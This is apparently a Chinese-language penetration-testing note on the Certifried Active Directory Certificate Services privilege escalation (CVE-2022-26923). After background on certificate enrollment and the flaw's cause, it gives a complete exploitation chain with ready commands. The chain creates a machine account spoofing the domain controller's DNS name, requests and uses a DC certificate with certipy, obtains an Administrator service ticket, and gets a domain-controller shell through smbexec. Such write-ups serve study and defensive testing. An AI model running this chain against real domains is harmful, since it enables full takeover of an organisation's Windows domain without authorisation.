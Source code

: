 # Certifried域内提权(CVE 2022 26923)

#### 前置知识备忘

1. AD CS（活动目录证书与服务）
2. PKI(公钥基础设施)：由数字证书、数字签名、公钥和私钥组成的一个信任体系，用来实现证书的产生、管理、存储、分发和撤销等功能，可以理解为一套解决方案，其中需要证书颁发机构，默认活动目录环境不会安装活动目录证书服务。
3. 活动目录证书注册流程：
   1. 注册期间客户端先根据活动目录Enrollment Services容器中的对象找到企业CA
   2. 生成一个公钥/私钥对，并将公钥、证书主题和证书模板名称等其他详细信息一起放入签名请求(CSR)消息
   3. 客户端
   4. 使用其私钥签署CSR，并将CSR发送到企业CA服务器
   5. 企业CA服务器检测客户端是否可以请求证书,如果是，通过查找CSR中指定的证书模板AD对象来确定是否会颁发证书，CA会检测证书模板的AD对象的权限是否允许账户获取证书，允许将使用证书模板自定义的蓝图设置(如EKU等)并使用CSR中提权的其他信息生成证书
4. CA颁发的证书可以提供加密如加密文件系统、数字签名、身份验证等服务。

#### CVE-2022-26923漏洞原理

概念1：默认下，域用户可以注册User证书模板，域机器账户可以注册Machine证书模板，两个证书模板都允许客户端身份验证，当用户账户申请User模板证书时，用户账户的用户主体名称(UPN)将嵌入证书，以进行识别，当进行身份验证时，KDC会尝试将UPN从证书映射到目标用户，根据微软的规范，UPN必须是为一个，意味着不能同事拥有两个UPN用户

概念2：机械账户是没用UPN属性的，当机械用户申请证书时，计算机的DNS属性值被嵌入到证书，以进行识别

漏洞原理：dNSHostName属性值并非唯一，并且对应机器账户的创建者来说，拥有计算机对象AD写入权限，因此在Marcus用户下将PENTEST$机器账户的dNSHostName改为域控制器的DNS主机名，就能欺骗AD CS并最终申请到域控制器的AD证书

#### 利用(impacket套件)：

修改`addcomputer`脚本，因为`dNSHostName`属性与`ServicePrincipalName`属性相关联，所以如果要修改`dNSHostName`的值就必须修改脚本中`ServicePrincipalName`默认的SPN为最新的DNS主机名更新

```
注释addcomputer脚本中servicePrincipalName并将dNSHostName修改为域控
```

<figure><img src="../../.gitbook/assets/Pasted image 20230220202623.png" alt=""><figcaption></figcaption></figure>

创建`dNSHostName`为域控DNS名称的机器用户

```
python3 addcomputer.py hack-my.com/Marcus:P@ssWOrd! -method LDAPS -computer-name-GGboy\$ -computer-pass P@ssWord! -dc-ip DC-1.hack-my.com -dc-host DC-1.hack-my.com
```

以刚创立的机械用户申请Machine模板证书(`GGboy$`的`dNSHostName`属性值将嵌入证书中作为主题备用名称，由于属性值修改为域控DNS。因为颁发域控制器机器账户的证书

```
certipy req -u GGboy\$@DC-1.hack-my.com -p PassWord! -ca 'hack-my-DC-1-CA' -template 'Machine'
```

利用颁发的证书`dc-1.pfx`对KDC进行`PKINIT Kerberos`身份验证并获取域控制器TGT票据

```
certipy auth -pfx 'dc-1.pfx' -username 'DC-1$' -domain 'hack-my.com' -dc-ip 'DC-1.hack-my.com' 
```

获取域控TGT后，通过Kerberos的S4U2Self扩展协议为域控管理员用户申请针对域控上其他服务的ST票据(利用`PKINITtools`工具来操作，请求域控制器CIFS服务，将上一步生成的dc-1.pfx移动到工具目录下)

```
python3 gets4uticket.py kerberos+ccache://hack-my.com//dc-1/$:dc-1.ccache@dc-1.hack-my.com cifs/dc-1.hack-my.com@hack-my.com Administrator@hack-my.com Administrator.ccache -v
```

通过设置环境变量`KRB5CCNAME`来使用申请到的`Administrator.ccache`票据并通过`smbexec`获取域控最高权限

```
export KRB5CCNAME=~/文档/mmm/PKINITtools/Administrator.ccache
python3 smbexec.py -k hack-my.com/Administrator@dc-1.hack-my.com -no-pass
```
